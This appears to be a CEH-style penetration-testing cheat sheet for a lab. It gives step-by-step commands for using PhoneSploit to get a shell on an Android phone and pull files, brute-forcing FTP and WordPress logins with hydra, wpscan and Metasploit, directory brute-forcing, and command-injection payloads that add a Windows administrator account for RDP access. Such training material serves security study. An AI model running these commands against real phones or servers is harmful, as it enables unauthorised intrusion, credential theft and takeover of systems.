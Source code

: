 ### PhoeSploit
**To install Phonesploit**
git clone https://github.com/aerosol-can/PhoneSploit
cd PhoneSploit
pip3 install colorama
OR
python3 -m pip install colorama

**To run Phonesploit**
python3 phonesploit.py

Type 3 and Press Enter to Connect a new Phone OR Enter IP of Android Device
Type 4, to Access Shell on phone
Download File using PhoneSploit
9. Pull Folders from Phone to PC
Enter the Full Path of file to Download
sdcard/Download/secret.txt


Hacking Web Servers
1- Footprinting web server Using Netcat and Telnet- nc -vv www.movies.com 80
						    GET /HTTP/1.0
						    telnet www.movies.com 80
						    GET /HTTP/1.0
2- Enumerate Web server info using nmap-  nmap -sV --script=http-enum www.movies.com
3- Crack FTP credentials using nmap-  nmap -p 21 10.10.10.10 (check if it is open or not)
				      ftp 10.10.10.10 (To see if it is directly connecting or needing credentials)
Then go to Desktop and in Ceh tools folder you will find wordlists, here you will find usernames and passwords file.
Now in terminal type-  hydra -L /home/attacker/Desktop/CEH_TOOLS/Wordlists/Username.txt -P /home/attacker/Desktop/CEH_TOOLS/Wordlists/Password.txt ftp://10.10.10.10

Hacking Web Application
1- Scan Using OWASP ZAP (Parrot)- Type zaproxy in the terminal and then it would open. In target tab put the url and click automated scan.
2- Directory Bruteforcing- gobuster dir -u 10.10.10.10 -w /home/attacker/Desktop/common.txt
3- Enumerate a Web Application using WPscan & Metasploit BFA-  wpscan --url http://10.10.10.10:8080/NEW --enumerate u  (u means username) 
Then type msfconsole to open metasploit. Type -  use auxilliary/scanner/http/wordpress_login_enum
 						 show options
						 set PASS_FILE /home/attacker/Desktop/Wordlist/password.txt
						 set RHOSTS 10.10.10.10  (target ip)
						 set RPORT 8080          (target port)
						 set TARGETURI http://10.10.10.10:8080/
						 set USERNAME admin
4- Brute Force using WPscan -    wpscan --url http://10.10.10.10:8080/NEW -u root -P passwdfile.txt (Use this only after enumerating the user like in step 3)
			         wpscan --url http://10.10.10.10:8080/NEW --usernames userlist.txt, --passwords passwdlist.txt 
5- Command Injection-  | net user  (Find users)
 		       | dir C:\  (directory listing)
                       | net user Test/Add  (Add a user)
		       | net user Test      (Check a user)
		       | net localgroup Administrators Test/Add   (To convert the test account to admin)
		       | net user Test      (Once again check to see if it has become administrator)
Now you can do a RDP connection with the given ip and the Test account which you created.
